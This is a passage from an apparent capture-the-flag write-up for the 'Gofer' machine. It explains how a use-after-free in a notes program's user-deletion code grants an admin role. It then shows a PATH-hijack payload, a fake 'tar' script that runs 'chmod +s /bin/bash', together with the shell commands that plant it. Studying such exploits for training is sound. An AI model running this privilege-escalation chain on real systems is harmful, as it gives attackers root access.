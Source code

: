 ```c
case 3:
  if (username != (void *)0x0) {
    free(username);
  }
  break;
```

In Case 4, where the `note_var` buffer is allocated 40 bytes of memory, which is the same size as the `username` buffer. Due to the way `malloc` works, the memory that was previously freed ( nut not cleared ) for the `username` buffer in case 3 will now be allocated to `note_var`.

By adding 24 bytes of random data followed by "admin" to the `note_var` buffer, I can effectively set the role to "admin" since the username still points to the same buffer. This action exploits use-after-free vulnerability created in case 3, allowing me to manipulate the role.

```c
case 4:
  note_var = malloc(0x28);
  memset(note_var,0,0x28);
  if (note_var == (void *)0x0) {
                /* WARNING: Subroutine does not return */
    exit(-1);
  }
  puts("Write your note:");
  __isoc99_scanf(&DAT_0010218b,note_var);
  break;
```

Exploitation path for the dangling pointer
- Create a new user, which initializes the role based on privileges.
- Delete the user, causing `free()` to deallocate the pointer and create a dangling pointer.
- Create a new note with data containing 24 random characters followed by "admin." This manipulation of the `note_var` buffer effectively sets the role as "admin" by exploiting the dangling pointer.
- With the "admin" role, execute the backup routine, which runs the `system("tar -czvf /root/backups/backup_notes.tar.gz /opt/notes");` command.
- Exploit PATH hijacking since `tar` doesn't have an absolute path set, allowing me to run my own malicious binary.


**Path Hijacking**

I created a file named "tar" with malicious code in the `/dev/shm` directory, made it executable, and added `/dev/shm` to the PATH. By doing this, I can successfully exploit the PATH hijacking vulnerability. As a result, when the archive function will, my malicious "tar" file in `/dev/shm` runs first, executing my malicious code.

```bash
(remote) tbuckley@gofer.htb:/dev/shm$ cat tar
#!/bin/bash

chmod +s /bin/bash
(remote) tbuckley@gofer.htb:/dev/shm$ chmod +x tar
(remote) tbuckley@gofer.htb:/dev/shm$ export PATH=/dev/shm:$PATH
(remote) tbuckley@gofer.htb:/dev/shm$ echo $PATH
/dev/shm:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games:/sbin:/usr/sbin:/usr/local/sbin
```
